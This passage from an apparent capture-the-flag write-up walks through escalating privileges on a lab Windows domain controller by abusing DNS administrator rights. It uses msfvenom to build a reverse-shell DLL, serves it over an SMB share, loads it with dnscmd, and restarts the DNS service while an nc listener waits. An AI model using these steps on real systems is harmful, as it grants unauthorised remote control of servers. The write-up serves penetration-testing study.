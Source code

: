 Yes, the user ryan has the ability to SERVICE_START and SERVICE_STOP.

Now, let's move onto the exploitation.

First, let's use `msfvenom` to create a DLL payload.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=8888 --platform=windows -f dll > plugin.dll`

Next, let's change the DNS server configuration to point to the DLL.

We will infiltrate the DLL with the help of Impacket's `smbserver`. Use the command below in a local folder that contains `plugin.dll`.

`impacket-smbserver SHARE .`

Next, let's use `dnscmd.exe` to alter the configuration. It is a [command line software for managing DNS servers](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd).

```
*Evil-WinRM* PS C:\> dnscmd.exe RESOLUTE.MEGABANK.LOCAL /config /serverlevelplugindll \\10.10.X.X\share\plugin.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Before we attempt to load `plugin.dll`, let's create a listener for the reverse shell.

`nc -nvlp 8888`

Finally, let's force the DNS server to load the DLL by restarting it with `sc.exe` - a tool for managing services.

```
*Evil-WinRM* PS C:\> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3472
        FLAGS              :
```
